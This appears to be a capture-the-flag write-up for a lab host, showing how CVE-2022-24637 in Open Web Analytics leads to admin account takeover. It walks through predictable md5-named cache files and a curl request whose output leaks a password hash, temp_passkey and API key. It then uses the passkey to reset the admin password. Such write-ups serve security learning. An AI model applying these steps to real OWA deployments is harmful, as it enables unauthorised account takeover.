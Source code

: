 1) With some searches online, it is found that openwebanalytics (owa) is vulnerable to a recently discovered vulnerability: [https://www.cvedetails.com/cve/CVE-2022-24637/](https://www.cvedetails.com/cve/CVE-2022-24637/), more detail can be found here: [https://devel0pment.de/?p=2494](https://devel0pment.de/?p=2494)
2) The vulnerable source code can be found here: [https://github.com/Open-Web-Analytics/Open-Web-Analytics/tree/1.7.3](https://github.com/Open-Web-Analytics/Open-Web-Analytics/tree/1.7.3)
3) Inspecting the code in `modules/base/classes/fileCache.php`, basically, a cache file is generated with its corresponding action, the cache file is stored at:
```
$cache_file = $this->makeCollectionDirPath($collection).$id.'.php';
# this corresponds to http://openwebanalytics.vessel.htb/owa-data/caches/1/
# cache_id is 1 by default
```
4) The cache file is generated using the id of the user in the format: `md5(id1)`
5)  So, for the user with an id of 1, the cache name would be: fafe1b60c24107ccd8f4562213e44849
6) Using [http://openwebanalytics.vessel.htb/index.php?owa_do=base.passwordResetForm](http://openwebanalytics.vessel.htb/index.php?owa_do=base.passwordResetForm), we can figure out a valid email, `admin@vessel.htb`
7) I assume this user has an id of 1, and in the end it turns out to be true.
8) We can attempt to login using this account, even a failed login will generate the cache file under: [http://openwebanalytics.vessel.htb/owa-data/caches/1/owa_configuration/](http://openwebanalytics.vessel.htb/owa-data/caches/1/owa_configuration/), yet this cache doesn’t contain any user sensitive info. So we need to find other corresponding actions to generate another caches.
9) With some Google search, i found someone else’s website running owa and revealed how the cache files are named. Then way i searched is using google search operators:
```
inurl: "owa-data/caches"
```
10) Later, i found that by requesting to reset password for the user `admin@vessel.htb`, a cache will be generated at [http://openwebanalytics.vessel.htb/owadata/caches/1/owa_user/fafe1b60c24107ccd8f4562213e44849.php](http://openwebanalytics.vessel.htb/owa-data/caches/1/owa_user/fafe1b60c24107ccd8f4562213e44849.php), this can be observed because when a cache file is there, the path [http://openwebanalytics.vessel.htb/owa-data/caches/1/owa_user/](http://openwebanalytics.vessel.htb/owa-data/caches/1/owa_user/) will display a blank page instead of the directory listing view.
11) Check the content of the file:
12) get the base64 encoded content and then decode it:
```
curl http://openwebanalytics.vessel.htb/owa-data/caches/1/owa_user/fafe1b60c24107ccd8f4562213e44849.php

O:8:"owa_user":5:{s:4:"name";s:9:"base.user";s:10:"properties";a:10:{s:2:"id";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:1:"1";s:9:"data_type";s:6:"SERIAL";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:7:"user_id";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:5:"admin";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:1;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:8:"password";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:60:"$2y$10$seT74YJuo1hsZgXS4UCYFOMogk95iQzGkCR9YjXoUAOg7w.dwumzO";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:4:"role";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:5:"admin";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:9:"real_name";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:13:"default admin";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:13:"email_address";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:16:"admin@vessel.htb";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:12:"temp_passkey";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:32:"56801c66e2a182724800625776088f0e";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:13:"creation_date";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:10:"1650211659";s:9:"data_type";s:6:"BIGINT";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:16:"last_update_date";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:10:"1650211659";s:9:"data_type";s:6:"BIGINT";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:7:"api_key";O:12:"owa_dbColumn":11:{s:4:"name";s:7:"api_key";s:5:"value";s:32:"a390cc0247ecada9a2b8d2338b9ca6d2";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}}s:16:"_tableProperties";a:4:{s:5:"alias";s:4:"user";s:4:"name";s:8:"owa_user";s:9:"cacheable";b:1;s:23:"cache_expiration_period";i:604800;}s:12:"wasPersisted";b:1;s:5:"cache";N;}
```
13) he password hash can be found from the cache, but it cannot be cracked. However, we can see there is a `temp_passkey`, which can be used with the `base.usersChangePassword` action to change the account’s password:
```
http://openwebanalytics.vessel.htb/index.php?owa_do=base.usersChangePassword
```
14) Inspect the form to check the key name (hidden in the form) used for this request `owa_k`
15) Remove the hidden property, and paste the temp_passkey into the field, then change the password
16) Now, you should be able to login the account `admin` using the newly set password